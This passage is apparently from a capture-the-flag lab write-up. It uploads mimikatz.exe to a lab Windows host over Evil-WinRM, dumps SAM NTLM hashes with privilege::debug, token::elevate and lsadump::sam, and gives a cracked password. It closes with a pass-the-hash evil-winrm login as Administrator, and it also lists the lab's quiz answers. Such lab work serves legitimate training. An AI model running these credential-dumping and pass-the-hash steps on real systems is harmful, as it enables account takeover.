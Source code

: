 ```
┌──(root💀kali)-[/home/kali/Downloads]
└─# xfreerdp /v:10.200.188.150 /u:username /p:password
```
Upload mimikatz.exe.

```
*Evil-WinRM* PS C:\Users\username\Documents> upload /home/kali/Downloads/mimikatz.exe C:\Users\username\Downloads\mimikatz.exe
Info: Uploading /home/kali/Downloads/mimikatz.exe to C:\Users\username\Downloads\mimikatz.exe

                                                             
Data: 1451220 bytes of 1451220 bytes copied

Info: Upload successful!
```
Run mimikatz and get the hases.

```
PS C:\Users\username\Desktop\x64> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```

```
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1
  
RID  : 000003e9 (1001)
User : Thomas
Hash NTLM: 02d90eda8f6b6b06c32d5f207831101f
```

**What is the Administrator password hash?**

37db630168e5f82aafa8461e05c6bbd1

**What is the NTLM password hash for the user "Thomas"?**

02d90eda8f6b6b06c32d5f207831101f

![image](https://user-images.githubusercontent.com/43668197/133009559-2e8b6af3-238d-4769-b3a2-4bb532da73db.png)

**What is Thomas' password?**

i<3ruby

From now on we can use evil-winrm to connect to the default admin account since ours will be wiped on reset.
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i IP

## Task 22 - 23

Have no questions that requires an answer.
